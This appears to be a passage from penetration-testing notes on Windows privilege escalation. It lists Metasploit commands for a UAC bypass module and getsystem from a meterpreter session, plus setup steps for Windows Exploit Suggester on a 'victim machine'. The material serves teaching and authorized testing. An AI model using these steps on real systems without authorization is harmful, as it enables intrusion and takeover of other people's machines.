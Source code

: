 First background your meterpreter session:

```text
background
```

Then set the UAC bypass module:

```text
use exploit/windows/local/bypassuac
```

Set the session ID and the listening host IP:

```text
set session [Session ID]
set lhost [attacking host]
run
```

This will spawn a second shell with UAC disabled, which might help you get `NT/AUTHORITY\SYSTEM`

```text
getsystem
```

## Scripts

### Windows Exploit Suggester

Windows Exploit Suggester is a tool to identify missing patches and associated exploits on a Windows host. It uses the output of `systeminfo` and compares it against the Microsoft vulnerability database, which is automatically downloaded and stores as a spreadsheet. Based on the output, the tool lists public exploits \(E\) and Metasploit modules \(M\).

If you don't have it, you can clone the git repository:

```text
git clone https://github.com/GDSSecurity/Windows-Exploit-Suggester.git
```

You may need to install the python-xlrd dependency for parsing Excel spreadsheets:

```text
apt-get update
apt-get install python-xlrd
```

Change the working directory to the Windows Exploit Suggester directory and run the updater:

```text
python windows-exploit-suggester.py --update
```

At that point, you should run `systeminfo` on the victim machine and save the contents as a text file:

```text
systeminfo
```
